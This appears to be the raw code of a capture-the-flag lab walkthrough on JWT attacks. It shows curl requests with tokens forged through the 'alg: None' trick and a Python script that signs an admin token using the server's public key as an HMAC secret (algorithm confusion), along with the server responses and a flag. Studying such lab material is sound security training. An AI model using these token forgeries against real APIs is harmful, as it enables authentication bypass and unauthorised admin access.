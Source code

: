 {
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0._yybkWiZVAe1djUIE9CRa0wQslkRmLODBPNsjsY8FO8"
}

curl -H 'Authorization: Bearer ew0KICAidHlwIjogIkpXVCIsDQogICJhbGciOiAiTm9uZSINCn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.' http://10.10.10.214/api/v1.0/example3?username=admin

curl -H 'Authorization: Bearer ew0KICAidHlwIjogIkpXVCIsDQogICJhbGciOiAiTm9uZSINCn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.' http://10.10.10.214/api/v1.0/example3?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{fb9341e4-5823-475f-ae50-4f9a1a4489ba}"
}
{
  "typ": "JWT",
  "alg": "None"
}{"username":"admin","admin":1}

curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password5" }' http://10.10.10.214/api/v1.0/example5
{
  "public_key": "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHSoarRoLvgAk4O41RE0w6lj2e7TDTbFk62WvIdJFo/aSLX/x9oc3PDqJ0Qu1x06/8PubQbCSLfWUyM7Dk0+irzb/VpWAurSh+hUvqQCkHmH9mrWpMqs5/L+rluglPEPhFwdL5yWk5kS7rZMZz7YaoYXwI7Ug4Es4iYbf6+UV0sudGwc3HrQ5uGUfOpmixUO0ZgTUWnrfMUpy2dFbZp7puQS6T8b5EJPpLY+iojMb/rbPB34NrvJKU1F84tfvY8xtg3HndTNPyNWp7EOsujKZIxKF5/RdW+Qf9jjBMvsbjfCo0LiNVjpotiLPVuslsEWun+LogxR+fxLiUehSBb8ip",
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.kR4DjBkwFE9dzPNeiboHqkPhs52QQgaHcC2_UGCtJ3qo2uY-vANIC6qicdsfT37McWYauzm92xflspmSVvrvwXdC2DAL9blz3YRfUOcXJT03fVM7nGp8E7uWSBy9UESLQ6PBZ_c_dTUJhWg35K3d8Jao2czC0JGN3EQxhcCGtxJ1R7T9tzBMaqW-IRXfTCq3BOxVVF66ePEfvG7gdyjAnWrQFktRBIhU4LoYwem3UZ7PolFf0v2i6jpnRJzMpqd2c9oMHOjhCZpy_yJNl-1F_UBbAF1L-pn6SHBOFdIFt_IasJDVPr1Ybv75M26o8OBwUJ1KK_rwX41y5BCNGcks9Q"
}

import jwt

public_key = "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHSoarRoLvgAk4O41RE0w6lj2e7TDTbFk62WvIdJFo/aSLX/x9oc3PDqJ0Qu1x06/8PubQbCSLfWUyM7Dk0+irzb/VpWAurSh+hUvqQCkHmH9mrWpMqs5/L+rluglPEPhFwdL5yWk5kS7rZMZz7YaoYXwI7Ug4Es4iYbf6+UV0sudGwc3HrQ5uGUfOpmixUO0ZgTUWnrfMUpy2dFbZp7puQS6T8b5EJPpLY+iojMb/rbPB34NrvJKU1F84tfvY8xtg3HndTNPyNWp7EOsujKZIxKF5/RdW+Qf9jjBMvsbjfCo0LiNVjpotiLPVuslsEWun+LogxR+fxLiUehSBb8ip"

payload = {
    'username' : 'admin',
    'admin' : 1
}

access_token = jwt.encode(payload, public_key, algorithm="HS256")
print (access_token)

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.au6ZnN5a4PDwXOM-KMMkTxZDUOBWcOU3zCGzOD5Gb-s

b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.PqBj1AKVA29470LnE7FbGonZ-NgzDCWhI8C-jr_Rjwc'

curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.PqBj1AKVA29470LnE7FbGonZ-NgzDCWhI8C-jr_Rjwc' http://10.10.34.220/api/v1.0/example5?username=admin
